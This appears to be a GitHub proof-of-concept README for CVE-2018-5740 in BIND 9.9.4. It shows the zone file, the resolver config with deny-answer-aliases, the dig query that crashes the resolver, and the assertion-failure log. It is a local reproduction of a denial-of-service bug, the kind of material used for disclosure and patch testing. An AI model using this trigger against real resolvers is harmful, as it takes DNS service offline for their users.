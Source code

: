 # CVE-2018-5740 PoC

Named, which is received response from legimate authoritative server, is crashed by CVE-2018-5740.

## FILES

* named.conf: BIND configration file for authoritative server.
* example.com: zone file for authoritative server.
* named-full-resolver.conf: BIND configration file for victim full-resolver server.

## REPRODUCE STEPS

Install CentOS 7.5.

Install bind and bind-utils packages.

```
# yum install bind-9.9.4-61.el7.x86_64 bind-utils-9.9.4-61.el7.x86_64

```

### Setup Authoritateive Server.

Create Zone file for example.com zone.

```
# vi /var/named/example.com
# chown root:named /var/named/example.com
```

example.com zone file.

```
$TTL 1D
@	IN SOA	@ rname.invalid. (
					0	; serial
					1D	; refresh
					1H	; retry
					1W	; expire
					3H )	; minimum
	NS	@
	A	127.0.0.1
	AAAA	::1

dname	IN DNAME	child.example.com.
```

Edit named.conf to add example.com zone.

```
# vi /etc/named.conf
```

example.com zone directive.

```
zone "example.com" IN {
	type master;
	file "example.com";
};
```

Start authoritateive server service.

```
# systemctl start named
```

### Setup Victim Full-Resolver Server

Create configration file for full-resolver server.

```
# vi /etc/named-full-resulver.conf
```

named-full-resolver.conf

```
options {
	listen-on port 10053 { 127.0.0.1; };
	listen-on-v6 port 10053 { ::1; };
	directory 	"/var/named";
	dump-file 	"/var/named/data/cache_dump.db";
	statistics-file "/var/named/data/named_stats.txt";
	memstatistics-file "/var/named/data/named_mem_stats.txt";
	allow-query     { localhost; };

	recursion yes;

	dnssec-enable yes;
	dnssec-validation yes;

	/* Path to ISC DLV key */
	bindkeys-file "/etc/named.iscdlv.key";

	managed-keys-directory "/var/named/dynamic";

	pid-file	"/var/run/named/named-full-resolver.pid";
	session-keyfile "/run/named/session.key";

	deny-answer-aliases {
		"dname.example.com";
	};
};

logging {
        channel default_debug {
                file "data/named.run";
                severity dynamic;
        };
};

zone "." IN {
	type hint;
	file "named.ca";
};

zone "example.com" IN {
	type static-stub;
	server-addresses { 127.0.0.1; };
};

include "/etc/named.rfc1912.zones";
include "/etc/named.root.key";
```

Start authoritateive server service.

```
# /usr/sbin/named -u named -c /etc/named-full-resolver.conf
```

Send query to full-resolver.

```
$ dig @127.0.0.1 -p 10053 dname.example.com DNAME +rec
```

See /var/log/messages.

```
Aug 15 10:45:30 bind named[11523]: name.c:2117: REQUIRE(suffixlabels > 0) failed, back trace
Aug 15 10:45:30 bind named[11523]: #0 0x55651c255b60 in ??
Aug 15 10:45:30 bind named[11523]: #1 0x7fa8a4e1717a in ??
Aug 15 10:45:30 bind named[11523]: #2 0x7fa8a64f87e9 in ??
Aug 15 10:45:30 bind named[11523]: #3 0x7fa8a64a3daf in ??
Aug 15 10:45:30 bind named[11523]: #4 0x7fa8a64a4ff0 in ??
Aug 15 10:45:30 bind named[11523]: #5 0x7fa8a657d33e in ??
Aug 15 10:45:30 bind named[11523]: #6 0x7fa8a4e3a066 in ??
Aug 15 10:45:30 bind named[11523]: #7 0x7fa8a49eae25 in ??
Aug 15 10:45:30 bind named[11523]: #8 0x7fa8a3a5ebad in ??
Aug 15 10:45:30 bind named[11523]: exiting (due to assertion failure)
```

